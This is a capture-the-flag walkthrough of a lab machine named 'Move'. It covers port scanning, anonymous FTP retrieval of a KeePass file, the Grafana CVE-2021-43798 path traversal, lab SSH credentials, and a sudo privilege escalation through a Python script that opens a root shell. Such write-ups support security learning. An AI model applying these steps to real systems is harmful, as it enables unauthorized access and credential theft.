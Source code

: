 # Move

## Port Enumeration

We started our scan using the Nmap tool during the discovery phase. We found the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
21/tcp   open  ftp     syn-ack ttl 64
22/tcp   open  ssh     syn-ack ttl 64
80/tcp   open  http    syn-ack ttl 64
3000/tcp open  ppp     syn-ack ttl 64
```

## Examining ports

More precise scan of the FTP port:

```ruby
    nmap -p21 -T4 --min-rate 1000 --script vuln,ftp-anon,ftp-bounce,ftp-syst 172.17.0.2
```
![alt text](Imagenes/Move_1.png)

We see that anonymous FTP service is allowed and there's a directory called "maintenance" that we can access.
We found a file "database.kdbx". After downloading it, we see it's a file that can be accessed using the KeePass tool.

![alt text](Imagenes/Move_2.png).

Similarly, I scanned the SSH port, but didn't find anything important.

Lastly, I scanned port 3000 and we see it has a login web page, which we'll review later.
![alt text](Imagenes/Move_3.png)

## Examining the Web Page and Its Infrastructure

If we examine the web on port 80, there's nothing relevant; it's a default Apache page.

We'll perform a scan of the web page looking for hidden directories or files. For this, I'll use the Gobuster tool.

```ruby
gobuster dir -u http://172.17.0.2 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,js,txt
```
![alt text](Imagenes/Move_4.png)
![alt text](Imagenes/Move_5.png)


If we look at what the login contains, we notice the following:
![alt text](Imagenes/Move_6.png)

It's a Grafana identification panel, we see that the version is v8.3.0.

## Intrusion
Searching in the searchexploit tool, we find an exploit with the same version. If we also do a basic search in the browser, we'll find a repository with this exploit.

It's the exploit CVE-2021-43798

https://github.com/FAOG99/GrafanaDirectoryScanner

Following the steps of the application, we get the following result:

![alt text](Imagenes/Move_7.png)

We've found a traversal file that contains a possible password for the KeePass program. If we try it in the application... we access successfully.

![alt text](Imagenes/Move_8.png)

We've found a user:

```ruby
user: freddy
pwd: t9sH76gpQ82UFeZ3GXZS
```

Finally, we try these credentials in the SSH service... we access correctly.
![alt text](Imagenes/Move_9.png)

## Escalation privilege
If we run the sudo -l command, we find the following:
![alt text](Imagenes/Move_10.png)

We see that we can execute that script as root user.
If we execute it, it simply shows us a "server under maintenance" message. Therefore, if we edit this file
and make a Python3 script that executes a terminal for us, we can access as root user. For this, I've made this basic script:

```python
import os
import subprocess

def local_shell():
    shell = "/bin/bash"  
    
    try:
       
        subprocess.call([shell, '-i'])
    except Exception as e:
        print(f"Error al iniciar la shell: {e}")

if __name__ == "__main__":
    local_shell()

```
Lastly, if we execute this script with sudo, we'll get a terminal with root user.

![alt text](Imagenes/Move_11.png)
